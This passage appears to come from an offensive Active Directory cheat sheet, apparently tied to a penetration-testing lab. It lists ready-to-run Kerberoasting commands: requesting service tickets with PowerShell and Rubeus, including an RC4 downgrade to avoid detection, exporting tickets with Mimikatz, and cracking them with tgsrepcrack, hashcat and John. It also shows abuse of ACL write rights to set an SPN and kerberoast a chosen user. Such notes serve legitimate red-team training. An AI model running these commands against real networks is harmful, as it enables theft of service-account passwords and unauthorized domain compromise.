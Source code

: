 ```
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "<SPN>"
```

```
Request-SPNTicket "<SPN>"
```

#### Request TGS Avoid detection
- Based on encryption downgrade for Kerberos Etype (used by likes ATA - 0x17 stands for rc4-hmac).
- Look for kerberoastable accounts that only supports RC4_HMAC
```
Rubeus.exe kerberoast /stats /rc4opsec
Rubeus.exe kerberoast /user:<SERVICEACCOUNT> /simple /rc4opsec
```

#### Export ticket using Mimikatz
```
Invoke-Mimikatz -Command '"Kerberos::list /export"'
```

#### Crack the ticket
Crack the password for the serviceaccount
```
python.exe .\tgsrepcrack.py .\10k-worst-pass.txt .\2-40a10000-student1@MSSQLSvc~dcorp-mgmt.dollarcorp.moneycorp.local-DOLLARCORP.MONEYCORP.LOCAL.kirbi
```

```
.\hashcat.exe -m 13100 -a 0 <HASH FILE> <WORDLIST>
```

```
.\John.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt hashes.txt
```

### Set SPN
- If we have sufficient permissions (GenericAll/GenericWrite). It is possible to set a SPN and then kerberoast!
#### Enumerate permissions for group on ACL
```
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "<SAMACCOUNTNAME>"}
```

#### Set SPN for the user
- Must be unique accross the forest. 
- Format ```<STRING>/<STRING>```
```
. ./PowerView_dev.ps1
Set-DomainObject -Identity <username> -Set @{serviceprincipalname=’<ops/whatever1>’}
```

#### Then Kerberoast user

## ACL
- Check every owned user in bloodhoud
#### Scan for interesting ACL's
```
Invoke-ACLScanner -ResolveGUIDS
```
